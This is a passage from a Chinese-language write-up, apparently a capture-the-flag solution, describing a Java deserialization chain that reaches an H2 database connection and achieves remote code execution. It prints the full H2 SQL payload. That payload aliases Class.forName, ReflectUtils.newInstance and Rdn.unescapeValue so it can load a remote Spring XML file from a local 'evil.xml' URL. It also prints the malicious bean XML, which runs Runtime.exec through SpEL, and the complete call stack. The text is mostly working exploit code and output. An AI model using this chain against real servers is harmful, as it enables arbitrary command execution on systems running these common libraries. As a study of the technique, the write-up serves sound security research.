

原因也是非常明显，因为我们的 url 是 VARCHAR ，但是我们需要接受的参数为 object 类型

师傅的解决办法就是接收一个 String 参数，然后转为 object 类型，而且是静态方法

使用的是 javax.naming.ldap.Rdn.unescapeValue 方法

```
public static Object unescapeValue(String val) {

    char[] chars = val.toCharArray();
    int beg = 0;
    int end = chars.length;

    // Trim off leading and trailing whitespace.
    while ((beg < end) && isWhitespace(chars[beg])) {
        ++beg;
    }

    while ((beg < end) && isWhitespace(chars[end - 1])) {
        --end;
    }

    // Add back the trailing whitespace with a preceding '\'
    // (escaped or unescaped) that was taken off in the above
    // loop. Whether or not to retain this whitespace is decided below.
    if (end != chars.length &&
            (beg < end) &&
            chars[end - 1] == '\') {
        end++;
    }
    if (beg >= end) {
        return "";
    }

    if (chars[beg] == '#') {
        // Value is binary (eg: "#CEB1DF80").
        return decodeHexPairs(chars, ++beg, end);
    }

    // Trim off quotes.
    if ((chars[beg] == '"') && (chars[end - 1] == '"')) {
        ++beg;
        --end;
    }

    StringBuilder builder = new StringBuilder(end - beg);
    int esc = -1; // index of the last escaped character

    for (int i = beg; i < end; i++) {
        if ((chars[i] == '\') && (i + 1 < end)) {
            if (!Character.isLetterOrDigit(chars[i + 1])) {
                ++i;                            // skip backslash
                builder.append(chars[i]);       // snarf escaped char
                esc = i;
            } else {

                // Convert hex-encoded UTF-8 to 16-bit chars.
                byte[] utf8 = getUtf8Octets(chars, i, end);
                if (utf8.length > 0) {
                    try {
                        builder.append(new String(utf8, "UTF8"));
                    } catch (java.io.UnsupportedEncodingException e) {
                        // shouldn't happen
                    }
                    i += utf8.length * 3 - 1;
                } else { // no utf8 bytes available, invalid DN

                    // '/' has no meaning, throw exception
                    throw new IllegalArgumentException(
                        "Not a valid attribute string value:" +
                        val + ",improper usage of backslash");
                }
            }
        } else {
            builder.append(chars[i]);   // snarf unescaped char
        }
    }

    // Get rid of the unescaped trailing whitespace with the
    // preceding '\' character that was previously added back.
    int len = builder.length();
    if (isWhitespace(builder.charAt(len - 1)) && esc != (end - 1)) {
        builder.setLength(len - 1);
    }
    return builder.toString();
}
```

最终的 payload

```
CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)';
CREATE ALIAS NEW_INSTANCE FOR 'org.springframework.cglib.core.ReflectUtils.newInstance(java.lang.Class, java.lang.Class[], java.lang.Object[])';
CREATE ALIAS UNESCAPE_VALUE FOR 'javax.naming.ldap.Rdn.unescapeValue(java.lang.String)';

SET @url_str='http://127.0.0.1:8111/evil.xml';
SET @url_obj=UNESCAPE_VALUE(@url_str);
SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext');
SET @string_clazz=CLASS_FOR_NAME('java.lang.String');

CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_obj]);
```

然后就是恶意的 xml 文件

```
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="evil" class="java.lang.String">
        <constructor-arg value="#{T(Runtime).getRuntime().exec('calc')}"/>
    </bean>
</beans>

```

成功弹出计算器



调用栈如下

```
<init>:141, ClassPathXmlApplicationContext (org.springframework.context.support)
<init>:85, ClassPathXmlApplicationContext (org.springframework.context.support)
newInstance0:-1, NativeConstructorAccessorImpl (jdk.internal.reflect)
newInstance:77, NativeConstructorAccessorImpl (jdk.internal.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (jdk.internal.reflect)
newInstanceWithCaller:499, Constructor (java.lang.reflect)
newInstance:480, Constructor (java.lang.reflect)
newInstance:274, ReflectUtils (org.springframework.cglib.core)
newInstance:264, ReflectUtils (org.springframework.cglib.core)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:77, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:568, Method (java.lang.reflect)
execute:495, FunctionAlias$JavaMethod (org.h2.schema)
getValue:345, FunctionAlias$JavaMethod (org.h2.schema)
getValue:40, JavaFunction (org.h2.expression.function)
query:70, Call (org.h2.command.dml)
query:222, CommandContainer (org.h2.command)
executeQuery:196, Command (org.h2.command)
execute:118, RunScriptCommand (org.h2.command.dml)
update:71, RunScriptCommand (org.h2.command.dml)
update:139, CommandContainer (org.h2.command)
executeUpdate:304, Command (org.h2.command)
executeUpdate:248, Command (org.h2.command)
openSession:280, Engine (org.h2.engine)
createSession:201, Engine (org.h2.engine)
connectEmbeddedOrServer:344, SessionRemote (org.h2.engine)
<init>:124, JdbcConnection (org.h2.jdbc)
connect:59, Driver (org.h2)
getConnection:681, DriverManager (java.sql)
getConnection:229, DriverManager (java.sql)
getConnection:26, MyDataSource (challenge)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:77, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:568, Method (java.lang.reflect)
serializeAsField:688, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:770, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:184, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1184, SerializerProvider (com.fasterxml.jackson.databind)
serialize:117, POJONode (com.fasterxml.jackson.databind.node)
_serializeNonRecursive:105, InternalNodeMapper$WrapperForSerializer (com.fasterxml.jackson.databind.node)
serialize:85, InternalNodeMapper$WrapperForSerializer (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:502, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:341, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1587, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1289, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1140, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:34, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:129, BaseJsonNode (com.fasterxml.jackson.databind.node)
valueOf:4222, String (java.lang)
append:173, StringBuilder (java.lang)
toString:457, AbstractCollection (java.util)
toString:1083, Vector (java.util)
stringOf:453, StringConcatHelper (java.lang)
invokeStatic:-1, DirectMethodHandle$Holder (java.lang.invoke)
invoke:-1, LambdaForm$MH/0x00000167ba015000 (java.lang.invoke)
linkToTargetMethod:-1, LambdaForm$MH/0x00000167ba015800 (java.lang.invoke)
toString:266, CompoundEdit (javax.swing.undo)
toString:695, UndoManager (javax.swing.undo)
stringOf:453, StringConcatHelper (java.lang)
invokeStatic:-1, DirectMethodHandle$Holder (java.lang.invoke)
invoke:-1, LambdaForm$MH/0x00000167ba00f800 (java.lang.invoke)
linkToTargetMethod:-1, Invokers$Holder (java.lang.invoke)
add:213, EventListenerList (javax.swing.event)
readObject:309, EventListenerList (javax.swing.event)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:77, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:568, Method (java.lang.reflect)
invokeReadObject:1104, ObjectStreamClass (java.io)
readSerialData:2434, ObjectInputStream (java.io)
readOrdinaryObject:2268, ObjectInputStream (java.io)
readObject0:1744, ObjectInputStream (java.io)
readObject:514, ObjectInputStream (java.io)
readObject:472, ObjectInputStream (java.io)
main:51, Test (challenge)
```



获取我们的远程 xml 内容并开始解析，成功，可以说非常的巧妙了
